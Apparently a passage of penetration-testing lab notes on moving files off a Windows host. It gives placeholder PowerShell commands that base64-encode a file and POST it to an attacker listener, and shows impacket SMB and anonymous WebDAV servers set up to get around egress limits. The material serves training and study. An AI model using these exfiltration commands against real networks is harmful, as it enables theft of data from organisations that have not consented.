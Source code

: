 ## NC

### PowerShell Base64 Web Upload
```powershell
PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path '[Input_File]' -Encoding Byte))

###### START A NC LISTENER IN KALI

PS C:\htb> Invoke-WebRequest -Uri [Target_Upload_URL] -Method POST -Body $b64
```

### Decode w/ base64 and Convert String to a File
```bash
# Copy output from listener

echo [Base64_Output] | base64 -d -w 0 > [Output_File]
```


## SMB
- Enterprises typically don't allow SMB out of their internal network as it opens them up to potential attacks.

> If no restrictions on SMB:

### Create SMB Server
```bash
sudo impacket-smbserver share -smb2support [Target_Share_Directory]
```


> If restricted:
- An alternative is to run SMB over HTTP with `webdav`
- When using SMB, it first attempts to connect using its protocol, but will revert to HTTP if unavailable.

### Install & Configure WebDAV Server on Linux
```bash
sudo pip3 install wsgidav cheroot

sudo wsgidav --host=0.0.0.0 --port=[Port] --root=[Root_Directory] --auth=anonymous
```

### Connect to WebDAV Share
```powershell
C:\htb> dir \\[Target_URL]\DavWWWRoot

	Volume in drive \\[Target_URL]\DavWWWRoot has no label.
	Volume Serial Number is 0000-0000
	
	Directory of \\[Target_URL]\DavWWWRoot
	
	05/18/2022  10:05 AM   <DIR>            .
	05/18/2022  10:05 AM   <DIR>            ..
	05/18/2022  10:05 AM   <DIR>            sharefolder
	05/18/2022  10:05 AM   <DIR>         13 filetest.txt
					1 File(s)            13 bytes
					3 Dir(s) 43,443,318,784 bytes free
```
	- DavWWWRoot is a special keyword recognized by the Windows Shell.  It doesn't exist on the server.
		- Tells the Mini-Redirector driver which handles WebDAV requests that you're connecting to the root.